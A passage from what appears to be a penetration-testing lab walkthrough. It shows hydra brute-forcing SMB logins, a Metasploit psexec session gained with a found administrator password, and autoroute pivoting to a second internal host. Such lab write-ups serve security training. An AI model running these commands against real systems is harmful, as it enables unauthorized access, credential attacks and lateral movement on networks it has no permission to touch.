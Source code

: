 Now, let's run the hydra tool for brute-forcing the SMB protocol to find the valid password of the provided users.

```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target_ip_local smb
```

### Now, we can use the Metasploit framework and run the

psexec exploit module to gain the meterpreter shell using the administrator user valid password.

```bash
# Note: If the exploit won't give you a meterpreter session. Try again!

msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS target_ip_local
set SMBUser administrator
set SMBPass password1
exploit
```

Success!. We have received a meterpreter session.

### Let's check if we can access target_ip from the compromised host.

Remember, when we did ping to both the targets and discovered IP addresses of these target machines:

1. target_ip.local: 10.0.17.62

2. target_ip : 10.0.22.69

Now, let's ping to the 10.0.22.69 and verify that it is reachable from the second machine.

```powershell
shell
ping 10.0.22.69

#We can access the target_ip machine, i.e., 10.0.22.69.
```

However, we cannot access that machine _(10.0.22.69)_ from the Kali machine. So, here we need to perform pivoting by adding route from the Metasploit framework.

### Let's add the route using the meterpreter session and identify the second machine service.

```powershell
CTRL + C
y
run autoroute -s 10.0.22.69/20
```

We have successfully added the route to access the target_ip machine.
